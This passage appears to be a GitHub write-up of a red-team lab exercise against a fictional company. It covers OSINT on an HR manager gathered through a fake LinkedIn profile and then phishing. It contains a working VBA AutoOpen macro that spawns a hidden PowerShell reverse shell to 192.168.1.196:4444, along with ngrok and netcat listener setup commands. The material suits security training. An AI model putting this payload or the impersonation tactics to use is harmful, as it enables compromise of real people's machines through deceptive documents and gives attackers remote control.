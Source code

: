 **OSINT Results:**
- CEO: Bruce Wayne
- HR Head: Barbara Gordon (found via fake LinkedIn profile)
- Email: `barbaragordonhr1@gmail.com`

Planned infiltration via Barbara's workstation.

📸 **Screenshots:**

*Stealth Nmap scan*

![Stealth Recon Scan](https://github.com/user-attachments/assets/4fbc8dce-4043-4272-89d9-dcdeac406b82)

*LinkedIn OSINT Barbara*
![Recon Barb Manager at Wayne](https://github.com/user-attachments/assets/2c210d1c-31ea-42cc-92ba-064ecba44cc7)

*Discovered email for phishing*

![found the victims email for phishing](https://github.com/user-attachments/assets/d9cdc0da-c963-4ea6-bd0f-6f036dd0e74a)


---

## 🧪 2. Weaponization

Initial brute-force attempts on RDP failed. Switched to phishing.

**Payload:** Malicious `.docm` disguised as HR document with embedded PowerShell reverse shell.

**VBA Macro Payload:**

```vba
Sub AutoOpen()
    Shell "powershell -w hidden -c \"$c=New-Object Net.Sockets.TCPClient('192.168.1.196',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){;$d=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0,$i);$r=(Invoke-Expression $d 2>&1 | Out-String );$s.Write((New-Object -TypeName System.Text.ASCIIEncoding).GetBytes($r),0,$r.Length)}\"", vbHide
End Sub
```

**Setup Commands:**
```bash
python3 upload_server.py
ngrok http 80
nc -lvnp 4444
```

📸 **Screenshots:**

*Python upload server*
![creating file upload server for NGROK](https://github.com/user-attachments/assets/403ec2f1-547e-4acc-ba88-2d5f8fda88e2)

*Ngrok, Netcat, and Upload Server*
![Ngrok listening, python upload server enabled, and netcat listener for reverse shell](https://github.com/user-attachments/assets/cb37cdda-71c8-4496-9119-d5893f6cf97d)

*Malicous macro embedded in Word Document*
![malicous macro spawning reverse shell on doc open](https://github.com/user-attachments/assets/086c433e-cb44-4412-a9f5-826907686345)

---